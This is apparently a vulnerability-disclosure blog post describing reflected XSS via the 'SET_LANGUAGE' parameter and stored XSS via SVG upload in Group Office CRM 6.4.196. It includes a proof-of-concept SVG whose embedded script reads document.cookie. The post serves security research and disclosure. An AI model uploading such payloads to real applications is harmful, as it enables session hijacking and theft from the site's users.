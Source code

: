 ```yaml
---
title: Group Office CRM | Stored XSS via SVG File
author: Fatih Çelik
date: 2020-12-10 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Software**: https://sourceforge.net/projects/group-office/

**Version**: 6.4.196

**Vulnerability**: Cross Site Scripting

**CVE**: N/A

**Description of the product:**

> Group Office is an open source groupware application. It makes your daily office tasks easier. Share projects, calendars, files and e-mail online. It is a complete solution for all your online office needs. From a customer phone call to a project and finally an invoice. The support system helps to keep your customers happy. Group Office is fast, secure and has privacy by design. You can stay in full control of your data by self hosting your cloud and e-mail. Our document editing solution keeps all data on the secured server instead of synchronising it to all user devices. GroupOffice is open source and modular. Which means it’s easy to customise and extend. You can turn off and on features and it enables any developer to create new modules for the platform.

## Description of the vulnerability

There are 2 XSS vulnerability on the web application. One of them is reflected XSS and the other one is stored XSS. The "SET_LANGUAGE" parameter is affected by reflected XSS vulnerability. In addition to that, in contact page, users can upload svg files via file upload functionality. Attacker can inject JS code into the svg file and due to the insecure handling of crafted svg file, attacker can perform XSS attack.

## Exploit

Content of the poc.svg file,

```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 <svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert(document.cookie);
</script>
</svg>
```

![](/photos/poc-1.png)

![](/photos/poc-2.png)
